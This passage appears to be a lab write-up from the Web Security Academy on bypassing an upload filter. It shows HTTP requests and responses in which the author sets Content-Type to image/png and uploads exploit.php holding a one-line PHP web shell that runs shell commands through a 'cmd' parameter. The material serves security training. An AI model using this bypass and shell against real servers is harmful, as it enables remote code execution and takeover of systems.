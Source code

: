 **Response**
```
HTTP/1.1 403 Forbidden
Date: Tue, 06 Jun 2023 13:18:22 GMT
Server: Apache/2.4.41 (Ubuntu)
Keep-Alive: timeout=5, max=100
Connection: close
Content-Type: text/html; charset=UTF-8
X-Frame-Options: SAMEORIGIN
Content-Length: 231

Sorry, file type application/x-php is not allowed
Only image/jpeg and image/png are allowed
Sorry, there was an error uploading your file.<p><a href="/my-account" title="Return to previous page">« Back to My Account</a></p>
```

In the above response, they have a verbose error that says the type `application/x-php` is not allowed and we can see in the above request that the Content-Type is indeed `application/x-php`, also they mentioned only the Content-Type `image/jpeg` and `image/png` is allowed.

Knowing that we can send the above request to the repeater and change the Content Type `application/x-php` with `image/jpeg`. When I send this request they show me the following different error message.

```
"No user param supplied"
```

I don't know which user parameter they are talking about because, in our above request, they have the `user` parameter that sets with `wiener`. This Content Type didn't work but now I change it to `image/png` and this works and they have the following response.

**Request**
```
POST /my-account/avatar HTTP/1.1
Host: 0a7100d6043375628054efe4008d00d0.web-security-academy.net
Connection: keep-alive
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryDjhEPM3Soc8YpDgQ
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Cookie: session=2w2WFeEcH3wFrOI6gH3WQWsEch1A4tU9
Content-Length: 436

------WebKitFormBoundaryDjhEPM3Soc8YpDgQ
Content-Disposition: form-data; name="avatar"; filename="exploit.php"
Content-Type: image/png

<?php system($_GET["cmd"]);?>

------WebKitFormBoundaryDjhEPM3Soc8YpDgQ
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundaryDjhEPM3Soc8YpDgQ
Content-Disposition: form-data; name="csrf"

qS8wCCB7hMQN7mlBL8Z2c8PgPvnOnLAm
------WebKitFormBoundaryDjhEPM3Soc8YpDgQ--
```
